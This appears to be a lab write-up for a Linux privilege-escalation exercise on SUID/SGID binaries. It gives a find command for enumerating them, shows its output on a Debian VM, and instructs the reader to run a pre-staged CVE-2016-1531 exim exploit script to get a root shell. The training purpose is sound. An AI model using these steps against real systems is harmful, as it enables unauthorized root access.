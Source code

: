 # [Task 11] SUID / SGID Executables - Known Exploits

Find all the SUID/SGID executables on the Debian VM:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. Exploit-DB, Google, and GitHub are good places to search!

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at /home/user/tools/suid/exim/cve-2016-1531.sh.

Run the exploit script to gain a root shell:

```bash
/home/user/tools/suid/exim/cve-2016-1531.sh
```

**Remember to exit out of the root shell before continuing!**

## #1 - Read and follow along with the above.

Let's find all SUID and GUID files on the server:

```bash
user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwsr-sr-x 1 root root 926536 May 31 16:48 /tmp/rootbash
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```
